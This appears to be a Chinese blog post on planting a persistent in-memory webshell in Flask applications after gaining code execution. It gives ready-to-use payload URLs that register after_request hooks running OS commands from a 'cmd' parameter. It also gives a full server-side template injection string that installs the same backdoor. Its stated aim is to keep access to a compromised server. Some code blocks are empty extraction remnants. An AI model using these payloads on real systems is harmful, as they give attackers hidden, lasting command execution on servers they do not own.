





最近发现了一个Python Flask框架的后台任意代码执行，利用成功以后想要进一步维持权限，所以想要使用Flask的内存马技术。
add_url_rule存在的局限
在网上浏览了很多文章，似乎都是清一色的介绍如何使用add_url_rule添加路由，但当下的FLask版本似乎已经不再支持在程序运行的过程中通过add_url_rule添加路由了。
测试代码：
1 |
|
访问http://127.0.0.1:5000/e?cmd=app.add_url_rule('/shell','shell',lambda :"123")
然而会显示The setup method 'add_url_rule' can no longer be called on the application.

所以，我们只能通过其他方式添加路由来处理我们的请求，这里我们可以尝试使用@app.before_request
before_request
在 Flask 中，before_request 是一个装饰器，它用于在请求处理之前执行特定的函数。这个装饰器允许对每个请求进行一些预处理，比如认证检查、日志记录、设置响应头等。

通过底层源码可以看到before_request实际上调用的是self.before_request_funcs.setdefault(None, []).append(f)，其意思是：
- 检查
self.before_request_funcs字典中是否有一个键为None的条目。 - 如果没有
None键，就在字典中创建它，并将其值设置为一个空列表。 - 然后，无论
None键是否存在，都将函数f添加到这个列表中。
这个函数f就是我们要添加的函数。
当访问http://127.0.0.1:5000/e?cmd=app.before_request_funcs.setdefault(None, []).append(lambda: "123")后，后续所有的访问结果都将变成123

可见通过before_request添加内存马这一条路是可行的，但同样会有一点问题，就是使用lambda必然会得到一个返回值，那么服务后续的操作都无法进行，会影响到主机的正常业务。
after_request
针对这个问题，我们可以使用@app.after_request来解决，与@app.before_request类似，after_request会在请求结束得到响应包之后进行操作，查看底层源码可以看到其调用方法和before_request类似

self.after_request_funcs.setdefault(None, []).append(f)传入的f就是对应的自定义函数，但这里的f需要接收一个response对象，同时返回一个response对象。
但我们仅通过lambad无法对原始传进来的response进行修改后再返回，所以需要重新生成一个response对象，然后再返回这个response。
访问对应的url为http://127.0.0.1:5000/e?cmd=app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec('global CmdResp;CmdResp=make_response(os.popen(request.args.get(\'cmd\')).read())')==None else resp)
函数的内容为：
1 | lambda resp: #传入参数 |
ssti利用
如果存在ssti，例如
1 |
|
考虑到没有导包的情况，完整的url为：
1 | http://127.0.0.1:5000/?name={{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}} |
此时会发现成功打上了一个内存马

参考: